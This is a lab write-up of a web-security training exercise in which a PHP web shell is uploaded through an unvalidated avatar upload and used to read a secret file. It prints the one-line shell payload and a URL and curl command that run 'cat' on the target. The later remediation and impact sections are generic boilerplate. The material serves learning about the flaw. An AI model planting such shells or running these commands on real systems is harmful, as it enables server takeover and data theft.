





# Remote code execution via web shell upload

### Goal - 

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`


### Vulnerability / Concept

This lab demonstrates a web security vulnerability that can be exploited to compromise the application's security. The vulnerability allows an attacker to bypass security controls and perform unauthorized actions.

The core issue is a failure in the application's security architecture — either insufficient input validation, broken access controls, improper trust boundaries, or insecure handling of user-supplied data. Understanding the root cause is essential for both exploitation and remediation.

### Recon / Initial Analysis

1. Identify the attack surface — what user-controlled inputs exist (URL parameters, form fields, headers, cookies)
2. Analyze the application's behavior with unexpected input
3. Map the request flow and identify trust boundaries
4. Test for error messages that reveal implementation details
5. Compare authenticated vs unauthenticated behavior
6. Use Burp Suite Proxy to capture and analyze all requests
7. Check for hidden parameters using Burp Intruder or Param Miner

### Analysis/Exploitation -

Login as user `wiener`:

**In the lab’s background, it said:**


This lab contains a vulnerable image upload function. It doesn’t perform any validation on the files users upload before storing them on the server’s filesystem.

Now, If the application doesn’t do any validation on user’s file upload, an attack could upload a web shell to the web server’s filesystem!

**But before we do that, let’s upload a normal file, and intercept the request via Burp Suite:**

When we clicked the `Upload` button, a POST request will be sent to `/my-account/avatar`, with parameters `name='user'`& `name='csrf'` at end after image data.



when we click “Back to My Account”, notice that image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`. 





Now we know **the exact location of the uploaded file: **`/files/avatars/test.png`**.**

Try to upload PHP web shell

**Payload:**`<?php system($_GET['cmd']); ?>`



💡 **<?php system($_GET['cmd']); ?>**
$**_GET** Can collect data that was sent in the URL or submitted in an HTML form.
The command to be executed is obtained from the user's input via the $_GET superglobal array. In this case, the user is expected to pass the command as a query parameter named 'cmd' in the URL.

For example, if the script is hosted at example.com/shell.php, a user could execute a command by visiting:
**http://example.com/shell.php?cmd=ls%20-l**



Use the avatar upload function to upload malicious PHP file

Calling the file will output the content of the secret file:

```text
https://0a7b004f038d0eb58082174300b30087.web-security-academy.net/files/avatars/webShell.php/?cmd=cat%20/home/carlos/secret
```



via command line using curl

```bash
curl https://0a7b004f038d0eb58082174300b30087.web-security-academy.net/files/avatars/webShell.php --get --data-urlencode "cmd=cat /home/carlos/secret"
```



### Why It Works

The vulnerability exists because the application fails to properly validate, sanitize, or authorize user input. The broken trust boundary allows an attacker to manipulate the application's behavior by injecting unexpected data that the server processes without adequate security checks.

### Real-World Impact

An attacker could exploit this vulnerability to:
- Access sensitive data belonging to other users
- Bypass authentication or authorization controls
- Perform unauthorized actions on behalf of legitimate users
- Potentially achieve remote code execution on the server
- Compromise the integrity or availability of the application

### Remediation

- Implement proper server-side input validation for all user-controlled data
- Use parameterized queries and prepared statements
- Enforce server-side authorization checks on every request
- Follow the principle of least privilege
- Implement security headers (CSP, X-Frame-Options, X-Content-Type-Options)
- Use a Web Application Firewall (WAF) as defense-in-depth
- Regularly test for vulnerabilities using automated scanners and manual testing

### Key Takeaways

- Never trust user-controlled input — validate and sanitize everything server-side.
- Security controls must be enforced server-side, not client-side.
- Understanding the vulnerability's root cause is essential for proper remediation.
- Burp Suite is essential for identifying and exploiting web vulnerabilities.
- Defense in depth — use multiple layers of protection, not just one.
